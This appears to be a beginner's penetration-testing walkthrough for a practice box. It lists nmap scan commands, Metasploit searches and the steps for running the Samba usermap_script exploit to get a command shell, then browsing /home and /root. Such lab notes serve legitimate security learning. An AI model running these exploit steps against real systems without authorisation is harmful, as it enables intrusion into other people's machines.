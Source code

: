 # First Box

## Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

## Enumeration

First scans

```
# Arp Scan
# nmap -n -sn <ip range>
# Services scan with all options scan. Add a -T5 if you want a really aggressive scan.
# nmap -sV -sC -A -oN <ip address.txt>  <ip address>
```

start and search in metasploit

```
# msfconsole

# Basic search
msf5> search samba

# Search by type, valid types are auxiliary, exploit, payload
msf5> search type:<type> samba

```

Review the excellent and manual (if you recovered a password) ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```

Note: if database error shows when typing in msfconsole.  Close it out and launch from gui icon.  This resolves database errors.
Note: can use searchsploit to avoid the startup


```
# searchsploit <service> <version>
```


## Attack

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  show advanced options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

## Endgame

summary
```
id
pwd
cd /home/<user>
cd /root
```
